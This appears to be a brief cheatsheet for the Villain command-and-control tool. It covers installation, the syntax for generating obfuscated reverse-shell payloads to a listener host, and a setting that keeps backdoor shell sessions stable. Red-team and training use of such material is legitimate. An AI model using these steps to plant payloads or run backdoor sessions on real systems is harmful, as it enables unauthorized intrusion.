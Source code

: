 # Villian Cheatsheet

## Installation:
```
sudo apt update&&sudo apt install gnome-terminal
git clone https://github.com/t3l3machus/Villain
cd ./Villain
pip3 install -r requirements.txt
```

## Generating Payloads

### Main Logic: 

```
generate payload=<OS_TYPE/HANDLER/PAYLOAD_TEMPLATE> lhost=<IP or INTERFACE> [ obfuscate encode ]
```

### Session Defender
Villain has a function that inspects user issued shell commands for input that may cause a backdoor shell session to hang (e.g., unclosed single/double quotes or backticks, commands that may start a new interactive session within the current shell and more). Use the `cmdinspector` command to turn that feature on/off.  

Usage: 
```
cmdinspector <ON/OFF>
```